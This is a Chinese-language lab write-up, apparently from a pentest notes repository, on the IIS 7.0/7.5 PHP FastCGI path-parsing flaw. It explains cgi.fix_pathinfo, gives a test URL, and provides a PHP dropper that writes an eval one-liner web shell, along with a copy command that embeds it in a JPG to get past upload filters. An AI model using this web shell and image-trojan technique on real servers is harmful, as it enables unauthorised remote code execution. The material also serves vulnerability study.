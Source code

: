 # IIS7.0/7.5解析漏洞

> IIS7.0/7.5本身没有解析漏洞，但是当IIS通过[FastCGI](https://baike.baidu.com/item/FastCGI)解析PHP语言时，由于FastCGI配置中的cgi.fix_pathinfo默认为1（即开启状态），导致在对文件进行解析时形成解析漏洞，因此，IIS7.0/7.5解析漏洞实际上是PHP FastCGI解析漏洞

## 漏洞原理

> 如果IIS7.0/7.5通过FastCGI的方式支持PHP解析，当访问`http://172.16.16.24/index.jpg/xx.php`时，$fastcgi_script_name会被设置为 `index.jpg/xx.php`，如果开启cgi.fix_pathinfo，PHP会认为SCRIPT_FILENAME是`index.jpg`，而`xx.php`是PATH_INFO，所以就会将`index.jpg`作为PHP文件来进行解析，从而形成解析漏洞

:pencil:**Thinking**  

> 通过上传点，上传一个包含木马的任意格式的文件，在菜刀连接时或者解析时，在完整访问路径下添加`/*.php`（无论`*.php`文件是否存在），该文件就会以PHP的形式进行解析

## 测试环境

- **操作系统**：Windows Server 2008 R2
- **应用服务**：IIS 7.5
- **解析语言**：PHP 7.2.17
- **测试时间**：2019/4/25

## 测试过程

### 漏洞测试

> 在IIS服务器下上传一个phpinfo文件，并以`.doc`命名

```php
<?php phpinfo();?>
```

![iis7.5_0005](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0005.PNG)

> 在浏览器中访问如下路径，以`.doc`命名的PHP文件正常解析

```http
http://172.16.16.24/a.doc/.php
```

![iis7.5_0001](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0001.PNG)

:pencil:**Thinking**  

> 此处对`.doc`、`.jpg`、`.txt`、`.asp`等格式的PHP文件进行了测试，均存在该解析漏洞

### 漏洞利用

> 通过上传点，上传一个图片木马，然后访问该图片木马，让其在本目录下生成一个shell.php，通过该方法可以绕过上传白名单检测，文件内容检测

**制作图片木马**

> 一张正常图片b.jpg和一个内容如下的a.txt

```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

:pencil:**Thinking**  

> 该PHP的意义是：当该PHP文件解析时，会在相同目录下生成一个包含一句话木马的shell.php文件，其中写入的一句话木马可以根据实际环境进行修改。本实验采用的PHP版本大于7，在PHP7之后的版本，PHP语言做了更改，很多函数无法使用，所以PHP小于7的木马文件在本环境中很可能无法使用，并且菜刀在实现文件管理器的时候用的是assert函数，这导致菜刀没办法在PHP7上正常运行，由于蚁剑没有用到assert函数，所以本测试使用蚁剑作为一句话木马的文件管理器。

> 使用cmd中的copy命令生成图片木马，将文本写入图片的二进制代码之后，避免破坏图片头和尾

```
copy b.jpg/b + a.txt/a ab.jpg
```

![iis7.5_0002](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0002.PNG)

**文件上传和解析**




**蚁剑连接**


































